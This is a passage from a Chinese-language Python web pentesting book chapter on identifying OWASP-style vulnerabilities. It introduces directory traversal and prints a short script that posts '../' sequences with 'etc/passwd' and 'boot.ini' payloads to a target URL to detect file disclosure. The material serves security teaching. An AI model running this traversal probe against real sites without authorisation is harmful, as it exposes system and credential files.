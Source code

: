 # 第三章漏洞识别

在本章中，我们将介绍以下主题：

*   基于 URL 的自动目录遍历
*   自动跨站点脚本（参数和 URL）
*   自动基于参数的跨站点脚本
*   自动模糊
*   jQuery 检查
*   基于头的跨站点脚本
*   壳震检查

# 导言

本章重点从前 10 名**开放式 web 应用程序安全项目**（**OWASP**中识别传统 web 应用程序漏洞。这将包括**跨站点脚本编制**（**XSS**）、目录遍历，以及其他简单到可以检查的漏洞，这些漏洞不足以保证它们自己的章节。本章提供了每个脚本的基于参数和基于 URL 的版本，以考虑可能发生的情况并降低单个脚本的复杂性。这些工具中的大多数都有精心设计的备选方案，例如 Burp 入侵者。在简化的 Python 中查看每个工具的好处是，它允许您了解如何构建和制作自己的版本。

# 基于 URL 的自动目录遍历

偶尔，网站使用不受限制的功能调用文件；这可以允许传说中的目录遍历或**直接对象引用**（**DOR**）。在此攻击中，用户可以使用易受攻击的参数调用网站上下文中的任意文件。这有两种操作方式：首先，通过提供一个绝对链接，如`/etc/passwd`，它表示从`root`目录浏览到`etc`目录并打开`passwd`文件；其次，向上移动目录以到达`root`目录并移动到预期文件的相对链接。

我们将创建一个脚本，试图打开 Linux 机器上始终存在的文件，即前面提到的`/etc/passwd`文件，方法是将 up 目录的数量逐渐增加到 URL 中的一个参数。它将通过检测表示文件已打开的词组 root 来识别它何时成功。

## 准备好了吗

标识要测试的 URL 参数。此脚本已配置为适用于大多数设备：`etc/passwd`应适用于 OSX 和 Linux 安装，`boot.ini`应适用于 Windows 安装。请参阅本例末尾的 PHP 网页，该网页可用于测试脚本的有效性。

我们将使用可通过`pip`安装的请求库。在作者看来，它在功能性和可用性方面都优于`urllib`。

## 怎么做…

确定要攻击的参数后，将其作为命令行参数传递给脚本。您的脚本应与以下脚本相同：

```py
import requests
import sys
url = sys.argv[1]
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
up = "../"
i = 0
for payload, string in payloads.iteritems():
  for i in xrange(7):
    req = requests.post(url+(i*up)+payload)
    if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```
